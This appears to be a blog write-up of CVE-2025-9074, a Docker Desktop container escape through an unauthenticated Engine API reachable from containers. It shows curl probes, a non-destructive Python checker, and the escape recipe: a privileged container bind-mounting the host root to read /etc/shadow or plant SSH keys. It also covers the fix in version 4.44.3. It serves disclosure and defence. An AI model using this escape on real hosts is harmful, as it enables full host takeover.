


## Overview

CVE-2025-9074 is a container escape in Docker Desktop, rated CVSS 9.3. What makes it nasty isn't some clever exploit chain, it's that there's barely any exploit at all. Any container could reach the Docker Engine API and take over the host with a few plain HTTP requests. No socket mount, no privileged flag, no kernel bug.

It affects Docker Desktop on Windows (WSL2 backend) and macOS. The whole thing comes down to one misconfiguration: the Docker daemon was listening on an internal address, `192.168.65.7:2375`, that every container could route to, with no authentication in front of it.

Credit for finding and disclosing this goes to Felix Boulet and Philippe Dugre. Their write-ups are linked at the bottom.

## How the API Got Exposed

Docker Desktop doesn't run the daemon on your host directly. On Windows it lives inside a WSL2 VM (a real Linux kernel under Hyper-V); on macOS, a similar lightweight VM. Your `docker` CLI on the host is just an HTTP client talking to `dockerd` inside that VM.

On native Linux this conversation happens over a Unix socket (`/var/run/docker.sock`) that's protected by filesystem permissions and never touches the network. Docker Desktop can't use that trick cleanly across the host/VM boundary, so it exposed the API over TCP instead. And that's where it went wrong. Three things lined up:

1. **The daemon bound to `0.0.0.0:2375`** instead of localhost, so anything on the VM's network could reach it.
2. **No authentication.** No keys, no certs, nothing. Any request was treated as legitimate.
3. **Containers could route to that network.** From inside a container, `192.168.65.7:2375` was directly reachable over `eth0`.

Put those together and every container on the machine had the exact same power over the daemon as an admin typing `docker` on the host. And the daemon runs as root.



Confirming it was reachable took one request:

```bash
# From inside any container
curl -s http://192.168.65.7:2375/_ping
# OK      <- no auth, no questions asked

ip route show
# default via 172.17.0.1 dev eth0
# 172.17.0.0/16 dev eth0 scope link
# 192.168.65.0/24 dev eth0 scope link   <- VM network is right there
```

## From API Access to Host Root

Once you can talk to the daemon, escaping is just asking it to do something dumb on your behalf. Every path below is a normal Docker API call, the same one the CLI makes.



The classic move is to create a new container that bind-mounts the host root and gives yourself a shell in it:

```bash
# POST /containers/create with:
#   HostConfig.Binds = ["/:/host"]
#   HostConfig.Privileged = true
# then start it and you're reading /host/etc/shadow, dropping SSH keys, whatever.
```

You never needed to mount `docker.sock` into the container. The network path *was* the socket.

## Testing for It

<small>WARNING: Educational use only. Test in isolated environments you own.</small>

If you want to see it live, there's a short PoC video:



To reproduce, install a Docker Desktop build older than 4.44.3 (4.44.0, 4.43.x, etc.) on a throwaway machine, then run a container and check whether the API answers:

```bash
docker run --rm -it python:3.11-alpine sh
pip install requests
```

This script just probes the endpoint, it doesn't do anything destructive:

```python
#!/usr/bin/env python3
"""CVE-2025-9074 check - test only on systems you own."""
import requests

TARGET = "http://192.168.65.7:2375"

def check():
    try:
        r = requests.get(f"{TARGET}/_ping", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] No route to the API - likely patched or well configured.")
        return

    if r.status_code == 200 and r.text.strip() == "OK":
        print("[!] VULNERABLE: Docker API is reachable from this container.")
        info = requests.get(f"{TARGET}/info", timeout=5).json()
        print(f"    Docker:  {info.get('ServerVersion')}")
        print(f"    Host OS: {info.get('OperatingSystem')}")
        containers = requests.get(f"{TARGET}/containers/json?all=1", timeout=5).json()
        print(f"    Sees {len(containers)} containers on the host.")
    else:
        print("[-] Endpoint responded oddly - probably not vulnerable.")

if __name__ == "__main__":
    check()
```

If it comes back `VULNERABLE` and prints the host's Docker version and container list, that's your proof: a container with no special privileges is reading host-level daemon state. A patched or properly configured system just can't reach the endpoint.

## The Fix

Docker shipped the fix in Docker Desktop 4.44.3 on August 20, 2025. It stops the daemon from listening in a way containers can reach, closing the network path without breaking the normal CLI workflow.

If you're running Docker Desktop, update to 4.44.3 or later. It's a one-line answer to a critical bug.

## Takeaway

The interesting thing about CVE-2025-9074 is how boring the exploit is. No memory corruption, no capability abuse, no kernel exploit, just an API that should have been on localhost, listening for anyone who asked. Container isolation held up fine; the management plane sitting next to it did not.

If you run containers, it's worth remembering that the daemon is the real crown jewel. Anything a container can reach on the network deserves the same scrutiny as anything it can reach on disk.

## References

- [Felix Boulet: "Breaking Docker's Isolation using Docker CVE-2025-9074"](https://pvotal.tech/breaking-dockers-isolation-using-docker-cve-2025-9074/)
- [Philippe Dugre: "Docker Desktop Container Escape"](https://blog.qwertysecurity.com/Articles/blog3.html)
- [Docker Security Best Practices](https://docs.docker.com/engine/security/)
- [Docker Engine API Documentation](https://docs.docker.com/engine/api/)
